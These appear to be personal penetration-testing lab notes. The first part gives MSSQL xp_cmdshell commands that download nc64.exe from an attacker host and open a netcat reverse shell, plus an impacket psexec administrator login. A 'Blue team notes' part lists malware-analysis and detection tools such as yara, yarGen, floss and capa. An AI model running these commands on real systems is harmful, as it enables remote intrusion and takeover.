 -`xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.22/nc64.exe -outfile nc64.exe"` OR `xp_cmdshell "powershell -c Invoke-WebRequest -Uri \"http://10.10.14.22:80/nc64.exe \" -OutFile \"C:\Users\sql_svc\Downloads\n.exe\""`
 - Listen on ur machine and on victim `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.129.113.162 443"`
 - Windows ssh like access `python3 psexec.py administrator@10.129.113.162` impacket tool

# Blue team notes
 - yara <path to specific yara rule file> target
 - python loki.py -p .  (loki is an alternative)
 - python3 yarGen.py -m <path to file to generate signature for> --excludegood -o <destination to .yar signature> https://github.com/Neo23x0/yarGen
 - floss (to auto decode strings in malware and detect them) https://www.mandiant.com/resources/blog/automatically-extracting-obfuscated-strings https://github.com/mandiant/flare-floss/releases
 - ssdeep compare hashes between two files, and their similarity percentage using fuzzy hashes. A fuzzy hash is a Context Triggered Piecewise Hash (CTPH). This hash is calculated by dividing a file into pieces and calculating the hashes of the different pieces. https://ssdeep-project.github.io/ssdeep/index.html
 - capa does a little bit of triage automation https://github.com/mandiant/capa
 - pestudio some automated analysis in PE header
